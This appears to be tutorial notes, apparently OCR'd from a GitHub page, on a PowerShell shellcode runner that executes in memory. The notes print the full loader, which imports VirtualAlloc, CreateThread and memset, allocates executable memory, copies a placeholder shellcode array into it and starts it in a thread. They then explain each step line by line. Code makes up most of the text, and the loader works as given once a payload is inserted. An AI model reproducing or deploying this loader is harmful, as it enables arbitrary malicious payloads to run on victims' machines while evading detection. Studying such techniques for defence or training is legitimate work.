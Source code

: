 ``` Powershell
$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

The script starts by importing _VirtualAlloc_ and _CreateThread_ from **kernel32.dll** as well as _memset_ from **msvcrt.dll**
+ These functions will allow us to allocate memory, create an execution thread, and write arbitrary data to the allocated memory, respectively
+ Once again, notice that we are allocating the memory and executing a new thread in the current process (powershell.exe), rather than a remote one
``` PowerShell
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
```

The script main logic starts by allocating a block of memory using _VirtualAlloc_, which takes each byte of the payload stored in the _$sc_ byte array and writes it to our newly-allocated memory block using _memset_
``` PowerShell
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
```

As a final step, our in-memory written payload is executed in a separate thread using the _CreateThread_ API
```
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
